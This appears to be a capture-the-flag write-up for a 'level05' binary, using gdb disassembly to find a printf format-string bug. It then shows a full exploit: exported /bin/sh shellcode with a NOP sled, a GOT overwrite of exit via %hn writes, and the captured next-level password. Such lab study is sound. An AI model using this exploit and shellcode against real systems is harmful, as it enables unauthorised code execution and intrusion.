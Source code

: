 gdb> disass main
[...]
   0x0804845d <+25>:	mov    eax,ds:0x80497f0           ; stdin
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x8],eax
   0x08048466 <+34>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804846e <+42>:	lea    eax,[esp+0x28]
   0x08048472 <+46>:	mov    DWORD PTR [esp],eax
   0x08048475 <+49>:	call   0x8048350 <fgets@plt>      ; fgets(buffer, 100, stdin)
[...]
   0x08048500 <+188>:	lea    eax,[esp+0x28]
   0x08048504 <+192>:	mov    DWORD PTR [esp],eax
   0x08048507 <+195>:	call   0x8048340 <printf@plt>     ; printf(buffer)
   0x0804850c <+200>:	mov    DWORD PTR [esp],0x0
   0x08048513 <+207>:	call   0x8048370 <exit@plt>       ; exit(0)
End of assembler dump.
# Here we can see that the program call `fgets` then call `printf` with whatever we previously entered

# We will use a format string attack to overwrite the exit function call with a shellcode in the env
gdb> disass 0x8048370
[...]
   0x08048370 <exit@plt+0>:	jmp    DWORD PTR ds:0x80497e0
   0x08048376 <exit@plt+6>:	push   0x18
   0x0804837b <exit@plt+11>:	jmp    0x8048330
[...]
gdb> x 0x80497e0
0x80497e0 <exit@got.plt>

# Then we export our shellcode
$> export SHELLCODE=$(python -c "print '\x90' * 640 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")
gdb> x/s *((char**)environ)
0xffffd903:	 "SHELLCODE=[...]"
# Our shellcode is at address 0xffffd903 + 10 == 0xffffd90d

# Then let's find at which offset our string is stored
$> python -c "print 'aaaa' + ' %x ' * 16" | ./level05
aaaa 64  f7fcfac0  f7ec3af9  ffffd70f  ffffd70e  0  ffffffff  ffffd794  f7fdb000  61616161  20782520  20782520  20782520  20782520  20782520  20782520
# Here we find 'aaaa' == 0x61616161 at offset 10

# Now we want to set the 4 lower bytes then the 4 higher bytes of the exit function call to match the address of our shellcode
$> python -c "print '\xe0\x97\x04\x08JUNK\xe2\x97\x04\x08' + '%x' * 8 + '%0x%hn'" > /tmp/pl5
gdb> r < /tmp/pl5
Stopped reason: SIGSEGV
0x08040040 in ?? ()
(0xd90d - 0x0040) + 1
55502

$> python -c "print '\xe0\x97\x04\x08JUNK\xe2\x97\x04\x08' + '%x' * 8 + '%55502x%hn%0x%hn'" > /tmp/pl5
Stopped reason: SIGSEGV
0xd915d90c in ?? ()
(0xffff - 0xd915) + 8
9970

# Now lets tweak the value to jump right in the nopsled
$> (python -c "print '\xe0\x97\x04\x08JUNK\xe2\x97\x04\x08' + '%x' * 8 + '%55502x%hn%9970x%hn'" ; cat -) | ./level05
$> (python -c "print '\xe0\x97\x04\x08JUNK\xe2\x97\x04\x08' + '%x' * 8 + '%55503x%hn%9969x%hn'" ; cat -) | ./level05
$> (python -c "print '\xe0\x97\x04\x08JUNK\xe2\x97\x04\x08' + '%x' * 8 + '%55504x%hn%9968x%hn'" ; cat -) | ./level05
$> (python -c "print '\xe0\x97\x04\x08JUNK\xe2\x97\x04\x08' + '%x' * 8 + '%55505x%hn%9967x%hn'" ; cat -) | ./level05
$ cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq